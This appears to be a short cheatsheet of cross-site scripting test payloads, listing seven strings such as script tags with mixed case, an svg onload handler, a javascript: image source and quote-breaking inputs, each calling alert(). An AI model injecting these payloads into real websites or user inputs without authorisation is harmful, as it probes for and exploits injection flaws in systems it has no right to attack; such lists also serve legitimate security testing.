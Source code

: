 Cheatsheet xss payloads.
```
<svg/onload=alert()>
<script>alert()</script>
<ScRipT>alert();</ScRipT>
<IMG SRC=jAVasCrIPt:alert()>
<ScRiPt>alert(1)</sCriPt>
‘; alert(1);
‘)alert(1);//
```
